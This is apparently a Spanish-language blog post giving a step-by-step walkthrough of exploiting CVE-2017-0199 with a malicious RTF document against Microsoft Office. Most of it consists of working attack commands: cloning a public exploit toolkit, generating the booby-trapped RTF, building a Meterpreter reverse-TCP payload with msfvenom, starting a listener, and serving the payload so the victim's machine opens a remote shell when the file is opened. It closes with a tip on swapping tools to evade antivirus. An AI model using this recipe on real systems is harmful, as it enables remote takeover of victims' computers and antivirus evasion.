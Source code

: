 ```yaml
---
layout: post
title: "Ataque con Archivos Maliciosos RTF (CVE-2017-0199)"
quote: "Hacking"
image:
      url:/assets/images/fondo.jpg
video: false
comments: true
theme_color: 302F2D
---
```

Empecemos por saber cómo funciona esta vulnerabilidad, a principios de abril se hablaba sobre este exploit que afecta a todas las versiones 
de Microsoft office, con solo abrir el documento en Word permite la ejecución de código sin requerir de que las macros se encuentren habilitadas, 
el exploit se conecta a un servidor remoto controlado por el atacante, descarga un archivo .hta y lo ejecuta.

### POC CVE-2017-0199

Creamos una carpeta e ingresamos a este directorio desde la terminal y ponemos lo siguiente:
```
git clone  https://github.com/bhdresh/CVE-2017-0199
```
Nos vamos al directorio donde hemos descargado el repositorio e ingresamos a la carpeta
{% include image.html url="http://bit.ly/2p5wDSj" %}

Damos permisos de ejecución con `chmod +x`. 
{% include image.html url="http://bit.ly/2pDHy18" %}

Generamos nuestro archivo malicioso RTF:
```
python cve-2017-0199_toolkit.py -M gen -w uthh.rtf -u http://192.168.101.12/logo.doc
```
{% include image.html url="http://bit.ly/2q7iHGA" %}


Movemos el archivo RTF`(uthh.rtf)` al Escritorio 
{% include image.html url="http://bit.ly/2qalSvk" %}


Ahora abrimos otra Terminal y generamos nuestro payload:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.101.12 LPORT=4444 -f exe > /tmp/shell.exe
```
{% include image.html url="http://bit.ly/2r7IWe8" %}


Iniciamos un handler de escucha:
```
msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.101.12; run"
```
Vemos que ya se encuentra a la escucha
{% include image.html url="http://bit.ly/2r5NQHJ" %}

Montaremos un servidor web para que cuando la víctima abra el archivo nosotros obtendremos una session remota.

Nos vamos a la terminal anterior donde se encuentra nuestro repositorio y ponemos lo  siguiente:
```
python cve-2017-0199_toolkit.py -M exp -e http://192.168.101.12/shell.exe -l /tmp/shell.exe
```
{% include image.html url="http://bit.ly/2pq6n5p" %}
Veremos que el exploit ya está esperando una conexión de la víctima y que está corriendo en el puerto 80.

Pasamos el archivo RTF(uthh.rtf) que anteriormente movimos al escritorio a una maquina Windows.
Una vez que estemos en Windows abrimos el archivo `uthh.rtf`. 
{% include image.html url="http://bit.ly/2r5EMmf" %}
{% include image.html url="http://bit.ly/2r7HhFu" %}

Con tan solo abrir el documento RTF, en la máquina del atacante hemos obtenido una sesision y pues ya estamos dentro de la máquina de la víctima.
{% include image.html url="http://bit.ly/2r7C6Wh" %}
{% include image.html url="http://bit.ly/2pDB2au" %}

<div class="message">
Nota: He utilizado msfvenom por lo cual es detectado por la mayoria de los Antivirus lo ideal seria utlizar Veil   
</div>

By Torres Happy Hacking
